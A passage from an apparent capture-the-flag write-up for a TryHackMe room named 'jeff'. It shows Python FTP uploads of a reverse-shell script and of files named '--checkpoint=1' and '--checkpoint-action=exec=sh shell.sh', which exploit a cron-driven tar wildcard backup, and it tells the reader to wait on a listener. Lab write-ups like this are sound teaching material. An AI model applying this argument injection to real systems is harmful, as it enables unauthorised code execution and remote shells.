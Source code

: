 There are two common modes for transferring files via FTP, `ascii` and `binary`
Ascii mode transfers files as 'text'. Examples of ascii files would be .txt, .asp, .html, and .php files
Binary mode transfers files as raw data. Examples of binary files would be .wav, .jpg, .gif, and mp3 files

So we are using ascii mode to transfer files

- We create two files one `payload`  which contains our reverse shell and another `empty`

`ftp.storlines()`: Store a file in ASCII transfer mode.

```python
ftp.storlines('STOR shell.sh',payload)
ftp.storlines('STOR --checkpoint=1',empty)
ftp.storlines('STOR --checkpoint-action=exec=sh shell.sh',empty)
```

So here we are using **TAR wildcard exploitation** to make it work. Outside the container there's a crontab to backup everything inside there every min so it is how the above code gets executed and we get a reverse shell. 

`ftp.quit()` just exits the connection. 

Ready? Let's upload to the container by creating a server and run it

<a href="/assets/img/thm/jeff/exploit.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/jeff/exploit.png"></a>

Make the file executable

```bash
chmod +x exploit.py
```

and run it. In your attacker machine open a listener at `1234` and in a min the cronjob will execute our shell.

<a href="/assets/img/thm/jeff/pivot.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/jeff/pivot.png"></a>

